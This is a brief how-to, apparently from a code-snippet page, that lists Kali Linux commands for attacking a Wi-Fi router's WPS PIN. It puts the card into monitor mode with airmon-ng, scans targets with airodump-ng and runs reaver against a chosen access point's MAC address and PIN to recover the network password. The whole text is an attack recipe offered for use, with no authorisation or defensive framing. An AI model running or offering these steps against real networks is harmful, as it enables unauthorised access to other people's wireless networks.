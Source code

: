Topics: wps pin entry on kali linux

1. ifconfig

2. airmon-ng start wlan0

3. airodump-ng wlan0mon  ( start scan and stop scan ctrl+c)

4. reaver 

5. reaver -i wlan0mon -b [mac] -p [pin] -v 

6.airmon-ng stop wlan0mon.

7. enter thh password
